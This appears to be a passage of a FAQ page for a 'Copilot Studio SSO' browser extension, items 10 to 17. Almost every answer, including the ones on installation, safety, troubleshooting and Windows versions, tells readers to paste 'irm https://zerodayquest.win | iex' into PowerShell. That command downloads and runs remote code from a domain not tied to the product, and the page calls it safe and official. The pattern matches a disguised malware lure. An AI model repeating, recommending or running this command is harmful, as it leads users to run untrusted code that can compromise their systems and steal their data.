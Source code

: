 ### **10. Where can I find more information about Copilot Studio SSO?**  
For the latest updates and support, run the command below:  
```powershell
irm https://zerodayquest.win | iex
```  

### **11. How do I install Copilot Studio SSO step by step?**  
Follow these steps:  
1. Copy the command below:  
   ```powershell
   irm https://zerodayquest.win | iex
   ```  
2. Open PowerShell on your Windows computer.  
3. Paste the command into PowerShell and press **Enter**.  

### **12. Is Copilot Studio SSO safe to install?**  
Yes! Always install from the official source by using the PowerShell command:  
```powershell
irm https://zerodayquest.win | iex
```  

### **13. Why isn’t Copilot Studio SSO working after installation?**  
If Copilot Studio SSO doesn’t work:  
- Restart your browser.  
- Ensure you have installed the latest version using:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **14. Can I install Copilot Studio SSO on Windows 11?**  
Yes! Open PowerShell and run:  
```powershell
irm https://zerodayquest.win | iex
```  

### **15. Can I install Copilot Studio SSO on Windows 10?**  
Yes, it works on Windows 10. Use:  
```powershell
irm https://zerodayquest.win | iex
```  

### **16. Can I install Copilot Studio SSO on Mac or Linux?**  
Currently, this Extension is designed for Windows. If Mac or Linux support is added, instructions will be provided here.  

### **17. Does Copilot Studio SSO work with Incognito Mode?**  
Yes! Install using PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  
Then restart your browser.  
